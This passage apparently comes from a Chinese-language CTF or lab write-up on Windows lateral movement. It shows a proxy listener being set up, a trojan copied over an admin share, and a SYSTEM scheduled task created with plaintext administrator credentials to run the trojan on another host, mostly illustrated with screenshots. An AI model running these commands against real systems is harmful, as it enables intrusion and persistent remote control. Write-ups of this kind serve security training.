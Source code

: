 请求超时，不出网

### 代理转发

#### 添加监听器

> 6666

![image-20241125174854510](https://image.201068.xyz/assets/writeup/image-20241125174854510.png)

#### 生成木马

部分阶段传输的木马

![image-20241125174940665](https://image.201068.xyz/assets/writeup/image-20241125174940665.png)

#### 上传木马

```bash
upload 6666.exe 
shell copy C:\Windows\system32\6666.exe \\192.168.27.110\c$
```

![image-20241125175332720](https://image.201068.xyz/assets/writeup/image-20241125175332720.png)

![image-20241125175436123](https://image.201068.xyz/assets/writeup/image-20241125175436123.png)

### 添加计划任务

```bash
shell schtasks /create /s 192.168.27.110 /u administrator /p "Admin123$%^" /tn test1 /tr c:/6666.exe /sc onstart /RU System /F

shell schtasks /run /s 192.168.27.110 /u administrator /p "Admin123$%^" /tn test1
```

![image-20241125175539781](https://image.201068.xyz/assets/writeup/image-20241125175539781.png)

![image-20241125175615065](https://image.201068.xyz/assets/writeup/image-20241125175615065.png)

### 或者在目标会话里横向移动

监听器设置为**代理转发的监听器**

![image-20241126133817032](https://image.201068.xyz/assets/writeup/image-20241126133817032.png)

![image-20241126133938206](https://image.201068.xyz/assets/writeup/image-20241126133938206.png)



### flag

![image-20241126133622641](https://image.201068.xyz/assets/writeup/image-20241126133622641.png)
